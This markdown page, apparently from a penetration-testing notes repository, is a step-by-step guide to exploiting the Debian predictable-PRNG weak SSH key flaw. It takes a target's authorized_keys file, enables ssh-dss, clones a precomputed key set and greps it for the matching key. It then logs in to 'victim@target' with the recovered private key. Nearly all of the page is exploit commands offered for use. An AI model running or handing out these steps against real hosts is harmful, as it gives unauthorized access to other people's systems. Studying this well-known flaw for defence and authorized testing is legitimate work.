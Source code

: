 # SSH Key Predictable PRNG (Authorized_Keys) Process
This module describes how to attempt to use an obtained authorized_keys file on a host system.

## Requirements for Exploit
* authorized_keys file from the target server
* SSH-DSS String from authorized_keys file
## Steps to Exploit Weakness
1. Get the authorized_keys file. An example of this file would look like so:
```
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... 
```
2. Since this is an ssh-dss key, we need to add that to our local copy of `/etc/ssh/ssh_config`:
```
PubkeyAcceptedKeyTypes +ssh-dss
```
3. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:
```
git clone https://github.com/g0tmi1k/debian-ssh
tar vjxf debian-ssh/common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```
4. Grab the first 20 or 30 bytes from the key file shown above starting with the `"AAAA..."` portion and grep the unpacked keys with it as:
```
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
```
Note, if there are plus symbols stop at the them as we don't want `grep` to attempt to interpret them as quantifiers (regexp).
5. IF SUCCESSFUL, this will return a file (84739yufh987fg38fg39847fg38fg3f34f.pub) public file. To use the private key file to connect, drop the '.pb' extension and do:
```
ssh -vvv victim@target -i 84739yufh987fg38fg39847fg38fg3f34f
```
And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.
